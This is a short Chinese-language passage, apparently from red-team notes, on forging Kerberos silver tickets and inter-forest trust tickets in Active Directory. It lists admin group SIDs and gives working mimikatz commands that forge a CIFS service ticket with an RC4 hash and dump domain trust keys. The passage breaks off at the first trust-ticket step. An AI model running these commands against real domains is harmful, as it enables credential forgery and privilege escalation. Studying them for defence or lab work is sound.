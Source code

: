 白银票据的默认组
- Domain Users SID: S-1-5-21<DOMAINID>-513
- Domain Admins SID: S-1-5-21<DOMAINID>-512
- Schema Admins SID: S-1-5-21<DOMAINID>-518
- Enterprise Admins SID: S-1-5-21<DOMAINID>-519  (只有在林的根域中创建了伪造的票据并且使用/sids参数指定AD林中的管理员权限的情况下才会有效)
- Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520

```
mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```
![](../img/silver.jpg)

#### 信任票据
一旦AD的信任密码HASH确定后，一个信任票据就会被创建（Mimikatz “privilege::debug” “lsadump::trust /patch” exit）

##### 伪造一个内部AD林的信任票据

步骤1：导出受信任的密码/密钥
```
mimikatz "privilege::debug" "lsadump::trust /patch" exit
```